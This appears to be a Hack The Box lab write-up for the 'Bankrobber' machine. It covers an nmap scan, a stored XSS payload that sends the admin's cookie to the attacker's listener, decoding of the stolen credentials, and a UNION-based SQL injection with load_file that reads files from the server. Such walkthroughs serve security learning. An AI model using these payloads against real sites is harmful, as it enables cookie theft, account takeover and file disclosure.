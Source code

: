 ```yaml
---
title: bankrobber user -sqli method no shell
author: fieldraccoon
date: 2020-07-08
categories: [hack-the-box, windows]
tags: [hack-the-box, sqli, xxs, xsrf, javascript, insane]
math: true
---
```


Bankrobber overall was a very unstable box and due to that it was very fiddly to get a shell and get root so i will go over the methodology of the xss and sqli in depth for the user section.

Of course we start off with an nmap:
```bash
kali@kali:~/boxes/bankrobber$ nmap -sC -sV -o nmap 10.10.10.154
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 06:13 EDT
Nmap scan report for 10.10.10.154
Host is up (0.034s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h03m36s, deviation: 0s, median: 1h03m36s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-08T11:17:56
|_  start_date: 2020-07-08T11:07:41
```

It showed us port `3306` on `mysql` and `445` on `smb`, we tried to connect to both of theese but were noth closed via a password protection.

Port `80` however was indeed usefull.

When visited with the site i made an account with the credentials `field:field` and loged in. Here we were greeted with a transaction page which in our case is bitcoin. There is 3 boxes for information, an id box a recipitent id box and a comment. The comment box will be abused here.

When we give it a test with random values we get a poppup about an admin reviewing it, indicating that there is an admin on the website that we can possibily exploit.

We create a file on our box with the contents:
`hello.php`:
```php
<?php ?>
```
This file can have any contents it just needs to be a file on the server.

Next we will try and steal the admin credentials by using this file as a connection to our box and then with a listener try and read the cookies.

On the bitcoin bank website we fill out the form with any id and in the contents section we add this:
```javascript
<script>new Image().src="http://10.10.xx.xx/hello.php?output="+document.cookie;</script>
```
This simple XSS will make a connectin to our ip address and try connect to the file but in fact will be redirected by a listener and reveal the contents of the request.

We send this request and on our box we get a connection back:

```bash
ali@kali:~/boxes/bankrobber$ sudo nc -nlvp 80
[sudo] password for kali:
listening on [any] 80 ...
connect to [10.10.xx.xx] from (UNKNOWN) [10.10.10.154] 49744
GET /hello.php?output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: nl-NL,en,*
Host: 10.10.xx.xx
```

We can see here that we are given a line of credentials
```bash
output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1
```

We decode the username and the password from base64 and read the creds in plaintext.
```bash
kali@kali:~/boxes/bankrobber$ echo YWRtaW4= | base64 -d
adminkali@kali:~/boxes/bankrobber$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d
Hopelessromantickali@kali:~/boxes/bankrobber$
```

Then we can login with `admin:Hopelessromantic` and get access to the admin panel.

From here we can experiment with sqli to read the backdoor.php which is in control of the backdoor command on the site and what we will use to get a shell(although not in this post.)

When we type `1' or 1=1 -- -` we get presented with a panel of all the users being admin and our own user.

We can now contruct an SQL query to read the user flag.

```sql
10' UNION SELECT 1,load_file('c:\\users\\cortin\\desktop\\user.txt'),3;-- -
```
We can also cahnge the file path and read any file that we want. including the backdoor.php file which helps us build our js script to pop a shell.

Thanks for reading hope that you enjoyed.
